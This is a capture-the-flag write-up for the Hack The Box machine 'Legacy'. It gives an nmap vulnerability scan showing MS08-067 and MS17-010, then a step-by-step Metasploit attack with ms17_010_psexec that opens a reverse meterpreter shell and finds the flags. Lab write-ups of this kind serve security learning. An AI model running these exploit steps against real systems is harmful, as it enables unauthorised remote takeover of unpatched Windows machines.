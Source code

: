 +++ 
title = "Legacy HTB Write up"
description = "Write up for the HTB machine 'Legacy'"
author = "greatmoves"
tags=["CVE-2017-0143", "nmap", "msfconsole", "hackthebox", "easy"]
date = 2023-05-11
+++

# 1. Inital recon

## 1.1. nmap
At the time of me doing this the machine is already quite old, so let's see if there's any vulnerabilities that we can find easily using nmap
`nmap --script vuln 10.10.10.4`

```
Host script results:
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

# 2. msfconsole
We can see from our nmap scan that the machine is vulnerable to `CVE-2017-0143` so let's search that in metasploit using the command `search CVE-2017-0143` and we should see a list of modules that we can use

```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
Let's use `exploit/windows/smb/ms17_010_psexec` with the command `use exploit/windows/smb/ms17_010_psexec`

then we need to set our options

```
set lhost YOUR_IP
set rhosts 10.10.10.4
```
then finally `exploit` to run the exploit

once we have a meterpreter shell we can run the command `shell` to have a shell on the machine where we can find the root flag at `C:\Documents and Settings\Administrator\Desktop` and the user flag at `C:\Documents and Settings\john\Desktop`

